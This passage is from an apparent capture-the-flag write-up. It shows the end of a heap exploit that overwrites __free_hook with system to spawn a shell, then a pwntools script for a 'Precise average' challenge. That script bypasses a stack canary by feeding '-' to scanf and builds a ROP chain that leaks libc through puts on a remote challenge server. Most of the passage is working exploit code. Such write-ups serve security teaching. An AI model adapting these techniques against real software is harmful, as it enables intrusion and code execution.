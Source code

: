```python
print hex(libc_addr)
#0x7fe5e1b31ca0 on server, so 2.27

add(0x50, '22', "/bin/sh") #4

delete(4)
delete(0)

add(0x50, 'consume', p64(libc_addr + 0x3ed8e8))#e.symbols["__free_hook"]))
add(0x50, 'consume')
add(0x50, '/bin/sh\x00', p64(libc_addr + 0x4f440))#e.symbols["system"])) #5

sh.sendline("3")
sh.recvuntil("Index: ")
sh.sendline(str(5))

sh.interactive()
```

##  104 Pwn / Precise average

The stack overflow is obvious, but we need to find ways to bypass canary protection. The key is to send `"-"` as the floating point number, which is invalid and `scanf` will return negative, but it will not rewrite the pointer passed as argument and leave it as it is. By using this technique canary will not be rewritten.

```python
from pwn import *
from struct import unpack as up
g_local=0
p = ELF("./precise_avg.elf")
context(log_level='debug', arch='amd64')
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
if g_local:
	sh = process("./precise_avg.elf")
	gdb.attach(sh)
else:
	sh = remote("82.196.10.106", 12499)

pop_rdi = p64(0x4009c3)
main = p64(0x4007D0)

def exploit(rop):
	sh.recvuntil("Number of values: ")

	length = 35 + len(rop)/8
	sh.sendline(str(length))

	for i in xrange(35):
		sh.sendline("-")

	for i in xrange(0, len(rop), 8):
		sh.sendline("%.800f" % up("<d", rop[i:i+8])[0])

	sh.recvuntil("Result = ")
	sh.recvuntil('\n')

rop = pop_rdi
rop += p64(p.got["puts"])
rop += p64(p.plt["puts"])
rop += main
exploit(rop)

```